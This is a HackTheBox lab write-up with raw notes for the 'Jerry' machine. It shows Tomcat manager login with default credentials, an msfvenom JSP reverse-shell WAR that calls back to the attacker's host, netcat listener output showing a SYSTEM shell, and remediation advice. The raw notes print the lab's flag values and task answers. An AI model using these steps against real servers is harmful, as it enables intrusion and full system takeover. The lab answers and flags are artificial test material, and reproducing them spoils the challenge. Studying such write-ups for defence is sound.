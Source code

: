 # HTB Room Report — Jerry (10.10.10.95)

**Target IP:** `10.10.10.95`  
**Room:** Jerry (Windows, Tomcat) — Easy difficulty  
**Author:** [your name / handle]  
**Date:** 2025-09-13

---

## 1. Summary / Objective
This document records the offensive engagement against the HackTheBox machine **Jerry**. The goal was to enumerate services, identify an exploitation path, obtain an interactive shell, and capture both user and root flags. The primary vulnerability chain involved Apache Tomcat manager access (WAR upload) to deploy a JSP reverse shell that yielded an `NT AUTHORITY\SYSTEM` shell on the Windows host.

**Outcome:** Full system compromise achieved; `user.txt` and `root.txt` recovered.

---

## 2. Reconnaissance & initial enumeration
Tools used: `rustscan`, `zenmap` (Nmap GUI), a personal `speedscan.py`, `curl`, a browser, `msfconsole` for convenience during exploitation, and `msfvenom` for payload generation.

**Observed service:** HTTP on port **8080** serving Apache Tomcat.

Basic steps & observations:
- Confirmed the web service at `http://10.10.10.95:8080`.
- Found Tomcat Manager application at `/manager/html` which requires authentication.
- Default creds did not work, but the 401 Unauthorized message hinted that credentials are stored in `conf/tomcat-users.xml` and even provided an example of `[REDACTED]` as a typical manager credential. Inspection revealed `[REDACTED]` / `[REDACTED]` worked.

---

## 3. Vulnerability & attack path overview
1. **Tomcat manager GUI** allows WAR file uploads and deployment.  
2. **Obtain manager credentials**: tomcat:s3cret (from configuration hint/inspection).  
3. **Create JSP reverse shell WAR** using `msfvenom` with `java/jsp_shell_reverse_tcp` payload.  
4. **Deploy WAR** through Manager GUI to `http://10.10.10.95:8080/portmortem/` (example).  
5. **Listen for reverse connection** using `nc -lvnp 4445` and receive a Windows shell.  
6. **Privilege level:** The shell returned `NT AUTHORITY\SYSTEM` (full system privileges).  
7. **Enumerate filesystem** and retrieve flags from `[REDACTED]` and `[REDACTED]`.

---

## 4. Reproducible commands & actions (red-team steps)

**Recon / discovery**
```bash
# quick TCP discovery (example)
rustscan -a 10.10.10.95 -r 1-65535
nmap -sV -p- 10.10.10.95
# or use zenmap GUI to visualize ports
```

**Check webapp**
```bash
# browse to the manager application
http://10.10.10.95:8080/manager/html
# use browser to view 401 page content for hints
```

**Generate WAR payload (on attacker machine)**
```bash
# create a JSP reverse shell WAR using msfvenom
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.9 LPORT=4445 -f war > portmortem.war
# Expected output: Payload size and final war size printed
```

**Start listener (attacker machine)**
```bash
nc -lvnp 4445
# or use msfconsole multi/handler configured for java/jsp_shell_reverse_tcp
```

**Upload & deploy WAR**
- Log into Tomcat Manager with `[REDACTED]` at `/manager/html`.  
- Use the "Upload WAR" or "Deploy" UI to upload `portmortem.war`.  
- Browse to `http://10.10.10.95:8080/portmortem/` (or the context path shown by Manager) to trigger the JSP and spawn the reverse shell.

**On listener, accept connection**
```
listening on [any] 4445 ...
connect to [10.10.14.9] from (UNKNOWN) [10.10.10.95] 49193
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>
whoami
nt authority\system
```

**Post-exploitation enumeration & flags**
```powershell
# from the SYSTEM shell
dir C:\Users\Administrator\Desktop\flags /s
type C:\Users\Administrator\Desktop\flags\user.txt
type C:\Users\Administrator\Desktop\flags\root.txt
```

---

## 5. Findings & evidence
- **Open TCP port:** `8080` (HTTP/Tomcat).  
- **Web server product:** Apache Tomcat.  
- **Manager path:** `/manager/html` (Tomcat Web Application Manager).  
- **Working credentials:** `[REDACTED]` (username:password).  
- **Uploadable file type via Manager:** `.war` (WAR archive).  
- **Privilege after exploitation:** `NT AUTHORITY\SYSTEM` (highest Windows privilege).

**Captured flags:**  
- `user.txt`: `[REDACTED]`  
- `root.txt`: `[REDACTED]`

---

## 6. Answers to room tasks (explicit)
1. **Which TCP port is open on the remote host?** `8080`  
2. **Which web server is running on the remote host?** `Apache Tomcat`  
3. **Which relative path leads to the Web Application Manager?** `/manager/html`  
4. **Valid username:password for Tomcat Manager?** `[REDACTED]`  
5. **Which file type can be uploaded and deployed via Manager?** `WAR file`  
6. **User flag (user.txt)** `[REDACTED]`  
7. **Administrator flag (root.txt)** `[REDACTED]`

---

## 7. Remediation & Blue Team recommendations
This lab demonstrates the impact of misconfigured or exposed management interfaces and the danger of file upload/deploy features. Suggested mitigations:

**Immediate / short-term:**
- Restrict access to Tomcat Manager via IP allowlists or network ACLs (only trusted admin IPs).  
- Change default or weak credentials; ensure unique, strong admin passwords.  
- Disable the manager application in production unless explicitly required.  
- Remove anonymous access and disable upload/deploy features if not needed.

**Medium-term / hardening:**
- Enforce TLS/HTTPS for Tomcat management interfaces and remote administration.  
- Apply least-privilege: run Tomcat service under a dedicated low-privilege account, and ensure deployed webapps cannot execute system-level commands.  
- Use web application firewalls (WAF) and monitoring to detect unusual deploy/upload activity.  
- Perform scheduled vulnerability scans and pentests to catch exposures such as manager GUIs and default credentials.

**Long-term / process:**
- Configuration management and secret rotation policies to avoid default creds shipping in images.  
- Asset inventory of admin panels and apply access control policies centrally.  
- Developer training on safe usage of deployment features and avoid storing sensitive files in webroots.

---

## 8. Lessons learned & notes
- Tomcat Manager WAR upload is a straightforward exploitation path when credentials are known or discoverable.  
- The 401 page content sometimes leaks configuration hints — pay attention to web app error messages.  
- Confirm management interfaces are not exposed to attacker networks.  
- Practice attacker techniques and defensive remediations in lab images to understand impact and mitigation.

---

## 9. Artifacts / evidence to store securely
- `portmortem.war` — generated payload WAR file (attacker artifact)  
- `msfvenom` output logs / creation notes  
- Listener logs (`nc` session capture) and shell transcript  
- Copy of `user.txt` and `root.txt` contents (store in evidence repo)  

---

*End of Jerry HTB writeup.*

---
orginial notes:
<details>
 Jerry is an easy-difficulty Windows machine that showcases how to exploit Apache Tomcat, leading to an `NT Authority\SYSTEM` shell, thus fully compromising the target. 
 
 ip = “10.10.10.95”
 
 learned that under htb if we enable it under perfences we can see udner retired machines the related classes we can take in teh academy to learn, neat!
 
 utlized rustscan, my personal speedscan.py, and zenmap
 
 we see that we can go to the site with adding 8080 on the url so 10.10.10.95:8080
 
 we started metasploit framework and saw a vuln, but let's explore the website first
 
 we have a manager app on the site that requests a username nad password. the default creds didn't work
 
 when we cancel the login get a 401 authorized error:
 
 we see that we aren't authorized to view this page, and we can view the conf/tomcat-users.xml to let us do what we need for updates
 
 we see that user might be tomcat, and password of s3cret
 
 bing, we're in!
 
 the info on the 401 error is:
    
401 Unauthorized
        You are not authorized to view this page. If you have not changed     any configuration files, please examine the file     conf/tomcat-users.xml in your installation. That     file must contain the credentials to let you use this webapp.    
        For example, to add the manager-gui role to a user named     tomcat with a password of s3cret, add the following to the     config file listed above.    
<role rolename="manager-gui"/>
<user username="tomcat" password="s3cret" roles="manager-gui"/>
        Note that for Tomcat 7 onwards, the roles required to use the manager     application were changed from the single manager role to the     following four roles. You will need to assign the role(s) required for     the functionality you wish to access.    
          • manager-gui - allows access to the HTML GUI and the status          pages
      • manager-script - allows access to the text interface and the          status pages
      • manager-jmx - allows access to the JMX proxy and the status          pages
      • manager-status - allows access to the status pages only
    
        The HTML interface is protected against CSRF but the text and JMX interfaces     are not. To maintain the CSRF protection:    
       ◇ Users with the manager-gui role should not be granted either        the manager-script or manager-jmx roles.
    ◇ If the text or jmx interfaces are accessed through a browser (e.g. for        testing since these interfaces are intended for tools not humans) then        the browser must be closed afterwards to terminate the session.
   
        For more information - please see the     Manager App HOW-TO.    
 
 
 we can upload a war file, so let's do some digging
 
 fter doing google searches and enumeration , I came to know that we can 
upload WAR files and also we can create a msf payload using msfvenom in 
WAR format
 
 MsfVenom - a Metasploit standalone payload generator.
Also a replacement for msfpayload and msfencode.

googing says to use this code: msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.9 LPORT=4445 -f war > portmortem.war

we get: 
Payload size: 1094 bytes
Final size of war file: 1094 bytes

chatgpt tells us what each part means to clarify:

msfvenom
Metasploitâ€™s payload generator/encoder/packer utility. It creates payloads (shells/backdoors/etc.) in many formats.

-p java/jsp_shell_reverse_tcp
-p selects the payload. java/jsp_shell_reverse_tcp is a JSP reverse TCP payload — it generates a JSP file packaged inside a WAR that, when executed by a Java web server (Tomcat/etc.), will cause the target host to open a TCP connection back to your machine and give you a command shell.

• LHOST=10.10.14.9
 The local host IP for the reverse connection — i.e., the attacker/listener IP that the target should connect back to. Set this to your attacking machine’s reachable IP (here 10.10.14.9).

• LPORT=4445
 The local port the target will connect to on your machine. You must have a listener on this port to receive the session.

• -f war
 The output format. war tells msfvenom to produce a Java WAR (Web ARchive) file. A WAR bundles web resources (including JSPs) and can be deployed to Java web servers.

• > portmortem.war
 Shell redirection: write the msfvenom output to a file named portmortem.war. (> overwrites if the file exists; use >> to append.)

when we go to it's a blank page, but what if we use nc(netcat?) http://10.10.10.95:8080/portmortem/

and we refeshed and got it!

└─$ nc -lvnp 4445
listening on [any] 4445 ...
connect to [10.10.14.9] from (UNKNOWN) [10.10.10.95] 49193
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>

whoami
nt authority\system

full access baby!
 
 chatgpt wasn't useful, btu we learned that we can use dir /s flags to find a file. The /s lists every occurenace
 
 we find one in: 
 Users/Administrator/Desktop/flags
 
 we find 2 for the price of 1.txt
 
 we get:
 
 user.txt
7004dbcef0f854e0fb401875f26ebd00

root.txt
04a8b36e1545a455393d067e772fe90e



 
 task 1: Which TCP port is open on the remote host?
8080

task 2: Which web server is running on the remote host? Looking for two words.
Apache Tomcat

task 3: Which relative path on the webserver leads to the Web Application Manager?
/manager/html

task 4: What is the valid username and password combination for authenticating into the Tomcat Web Application Manager? Give the answer in the format of username:password
Tomcat / s3cret

task 5: Which file type can be uploaded and deployed on the server using the Tomcat Web Application Manager?
WAR file

task6: Submit the flag located on the user's desktop.

task7: Submit the flag located on the administrator's desktop.
</details>
